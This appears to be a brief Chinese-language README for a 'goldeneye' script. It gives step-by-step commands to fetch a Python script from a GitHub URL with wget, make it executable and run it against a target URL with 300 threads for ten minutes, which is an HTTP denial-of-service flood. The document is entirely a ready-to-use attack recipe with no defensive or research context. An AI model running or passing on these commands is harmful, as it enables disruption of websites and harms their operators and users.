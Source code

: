 # goldeneye
脚本需要在linux服务器SSH终端执行
sudo apt-get install python-is-python3

wget https://raw.githubusercontent.com/wxhscc/hjy/main/hjy.py

chmod +x hjy.py

./hjy.py http://url/ -s 600 -w 300

300线程发包10分钟
